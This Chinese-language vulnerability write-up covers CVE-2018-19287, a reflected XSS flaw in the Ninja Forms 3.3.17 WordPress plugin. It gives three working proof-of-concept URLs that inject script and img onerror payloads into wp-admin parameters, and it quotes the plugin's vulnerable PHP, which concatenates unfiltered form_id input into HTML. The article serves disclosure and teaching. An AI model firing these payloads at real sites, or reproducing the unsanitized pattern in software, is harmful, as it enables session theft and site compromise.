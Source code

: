 # （CVE-2018-19287）WordPress Plugin - Ninja Forms 3.3.17 XSS

> 原文：[https://www.zhihuifly.com/t/topic/3247](https://www.zhihuifly.com/t/topic/3247)

# （CVE-2018-19287）WordPress Plugin - Ninja Forms 3.3.17 XSS

## 一、漏洞简介

Ninja Forms是WordPress的终极免费表单创建工具。使用简单但功能强大的拖放式表单创建器在几分钟内构建表单。对于初学者，可以快速轻松地设计复杂的表单，绝对没有代码。对于开发人员，利用内置的钩子，过滤器，甚至自定义字段模板，使用Ninja Forms作为框架，在表单构建或提交的任何步骤中执行您需要的任何操作。

## 二、漏洞影响

## 三、复现过程

下面是我从exploit-db上复制的POC，为了方便判断，修改了弹窗的内容。

```
http://0-sec.org/wp-admin/edit.php?s&post_status=all&post_type=nf_sub&action=-1&form_id=1&nf_form_filter&begin_date&end_date="><img+src=mtk+onerror=alert(/POC1/);//&filter_action=Filter&paged=1&action2=-1 
```

```
http://0-sec.org/wp-admin/edit.php?s&post_status=all&post_type=nf_sub&action=-1&form_id=1&nf_form_filter&begin_date="><img+src=mtk+onerror=alert(/POC2/);//&end_date&filter_action=Filter&paged=1&action2=-1 
```

```
http://0-sec.org/wp-admin/edit.php?post_status=trash&post_type=nf_sub&form_id=1"><script>alert(/POC3/);</script>&nf_form_filter&paged=1 
```

我们只要直接复制POC到浏览器的地址栏回车即可触发漏洞。

下图是触发第一个POC的图：

![image](img/27cee64fc00ff910c8d8aa7642f5a56e.png)

下图是触发第二个POC的图：

![image](img/2936c5be43f04b4530ea57b3fd000e5c.png)

下图是触发第三个POC的图：

![image](img/b51ca6a9feb454b98abfe20b65263f25.png)

### 漏洞分析过程

笔者直接从POC方面入手，简单分析一下漏洞的成因。由于方法是一样的，笔者是一个懒人，这里就只分析了POC3的成因。

通过POC查找关键词nf_sub，确定了核心文件\wp-content\plugins\ninja-forms\includes\Admin\Menus\Submissions.php。

下图是Submissions.php部分内容：

![image](img/21bec62cbc6f87d2d246688637f73730.png)

通过粗略的阅读，发现这个函数是导致POC3成功弹窗的关键。

下图是Submissions.php文件第71-104行内容：

```
public function change_views( $views )

{

```
// Remove our unused views.

unset( $views[ 'mine' ] );

unset( $views[ 'publish' ] );

// If the Form ID is not empty...

if( ! empty( $_GET[ 'form_id' ] ) ) {

    // ...populate the rest of the query string.

    $form_id = '&amp;form_id=' . $_GET[ 'form_id' ] . '&amp;nf_form_filter&amp;paged=1';

} else {

    // ...otherwise send in an empty string.

    $form_id = '';

}

// Build our new views.

$views[ 'all' ] = '&lt;a href="' . admin_url( 'edit.php?post_status=all&amp;post_type=nf_sub'  ) . $form_id . '"&gt;'

                . __( 'Completed', 'ninja-forms' ) . '&lt;/a&gt;';

$views[ 'trash' ] = '&lt;a href="' . admin_url( 'edit.php?post_status=trash&amp;post_type=nf_sub' ) . $form_id . '"&gt;'

                    . __( 'Trashed', 'ninja-forms' ) . '&lt;/a&gt;';

// Checks to make sure we have a post status.

if( ! empty( $_GET[ 'post_status' ] ) ) {

    // Depending on the domain set the value to plain text.

    if ( 'all' == $_GET[ 'post_status' ] ) {

        $views[ 'all' ] = __( 'Completed', 'ninja-forms' );

    } else if ( 'trash' == $_GET[ 'post_status' ] ) {

        $views[ 'trash' ] = __( 'Trashed', 'ninja-forms' );

    }

}

return $views; 
``` `}` 
```

从上面代码，我们可以看到，form_id并没有被过滤，导致XSS存在。

```
$form_id = '&form_id=' . $_GET[ 'form_id' ] . '&nf_form_filter&paged=1'; 
```

## 四、参考链接

> https://www.exploit-db.com/exploits/45880/

> https://www.freebuf.com/vuls/190411.html